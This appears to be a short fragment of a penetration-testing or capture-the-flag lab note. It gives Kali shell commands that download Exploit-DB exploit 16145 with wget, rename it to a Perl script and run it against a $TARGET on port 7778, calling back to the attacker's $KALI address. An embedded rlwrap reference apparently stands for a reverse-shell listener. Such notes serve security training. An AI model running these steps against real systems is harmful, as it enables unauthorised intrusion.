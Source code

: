 ```bash - klai
wget https://www.exploit-db.com/exploits/16145
```
```bash - kali
mv 16145 16145.pl
```
![[1._rlwrap]]
```bash - kali
perl 16145.pl $TARGET 7778 $KALI 80
```
